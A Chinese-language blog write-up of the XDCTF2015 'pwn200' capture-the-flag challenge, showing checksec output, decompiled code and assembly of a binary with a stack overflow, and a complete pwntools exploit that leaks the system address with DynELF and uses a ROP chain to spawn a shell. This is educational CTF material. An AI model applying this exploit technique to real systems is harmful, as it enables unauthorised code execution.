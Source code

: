 ```yaml
---
layout:     post
title:      "XDCTF2015之pwn200"
subtitle:   "DynELF实现无libc利用"
date:       2018-06-19 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```

## 0x00 代码分析

检查保护，只开启了NX

```python
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

IDA伪代码

```c
ssize_t sub_8048484()
{
  char buf;   #[esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}

int __cdecl main()
{
  int buf;   #[esp+2Ch] [ebp-6Ch]
  int v2;   #[esp+30h] [ebp-68h]
  int v3;   #[esp+34h] [ebp-64h]
  int v4;   #[esp+38h] [ebp-60h]
  int v5;   #[esp+3Ch] [ebp-5Ch]
  int v6;   #[esp+40h] [ebp-58h]
  int v7;   #[esp+44h] [ebp-54h]

  buf = 1668048215;
  v2 = 543518063;
  v3 = 1478520692;
  v4 = 1179927364;
  v5 = 892416050;
  v6 = 663934;
  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)&buf);
  write(1, &buf, strlen((const char *)&buf));
  sub_8048484();
  return 0;
}
```
汇编代码(关键函数sub_8048484)

```nasm
.text:08048484 sub_8048484     proc near               ; CODE XREF: main+A1↓p
.text:08048484
.text:08048484 buf             = byte ptr -6Ch
.text:08048484
.text:08048484 ; __unwind {
.text:08048484                 push    ebp
.text:08048485                 mov     ebp, esp
.text:08048487                 sub     esp, 88h
.text:0804848D                 mov     eax, ds:stdin
.text:08048492                 lea     edx, [ebp+buf]
.text:08048495                 mov     [esp+4], edx    ; buf
.text:08048499                 mov     [esp], eax      ; stream
.text:0804849C                 call    _setbuf
.text:080484A1                 mov     dword ptr [esp+8], 100h ; nbytes
.text:080484A9                 lea     eax, [ebp+buf]
.text:080484AC                 mov     [esp+4], eax    ; buf
.text:080484B0                 mov     dword ptr [esp], 0 ; fd
.text:080484B7                 call    _read
.text:080484BC                 leave
.text:080484BD                 retn
.text:080484BD ; }   #starts at 8048484
.text:080484BD sub_8048484     endp
```
明显sub_8048484()里read函数导致buf溢出

## 0x01 漏洞利用

该程序无cookie，存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只简要说一下借助DynELF实现利用的要点：

**先用write函数Memleak出目标主机systemAddr（leak函数里面对接收数据的处理尤其重要），再将/bin/sh写入bss段，用三个pop ret ROP调用system函数拿下shell**

## 0x02 脚本代码

```python
#!usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import pwnlib
context(os='linux', log_level='debug')
p = process("./pwn200")
elf = ELF("./pwn200")
writeplt = elf.symbols['write']
readplt = elf.symbols['read']
main_address =0x080484BE      #调用main函数
bss_address =0x0804a020    #bss段,用来写入“/bin/sh\0”
def leak(address):
  payload = "A" * 112
  payload += p32(writeplt)
  payload += p32(main_address)
  payload += p32(1)
  payload += p32(address)
  payload += p32(4)
  p.send(payload)
  data= p.recvuntil("XDCTF2015~!\n")
  data=data.split('Welcome')[0]
  print "%#x => %s" % (address, (data or '').encode('hex'))
  return data


p.recvline()
dynelf = DynELF(leak, elf=ELF("./pwn200"))
systemAddress = dynelf.lookup("system", "libc") 
print "systemAddress:=====", hex(systemAddress)


ppprAddress = 0x0804856c  #连续3次pop的ROP
payload1 = "A" * 112
payload1 += p32(readplt)
payload1 += p32(ppprAddress)
payload1 += p32(0)
payload1 += p32(bss_address)
payload1 += p32(8)
payload1 += p32(systemAddress) + p32(main_address) + p32(bss_address)

p.send(payload1)
p.send('/bin/sh\x00')

p.interactive()
```
## 0x03 总结

最开始我在leak函数里面，反复调用sub_8048484()，避免接收 "Welcome to XDCTF2015~!"
这个字符串，但是发现这样找到system地址返回后调用时可能堆栈出现了点问题，如果要这样用的话可以在找到地址后覆盖main函数以平衡栈空间，再进行下一步。更要善于观察栈空间结构。

[文件下载](https://github.com/yxshyj/project/tree/master/pwn/XDCTF2015%E4%B9%8Bpwn200)

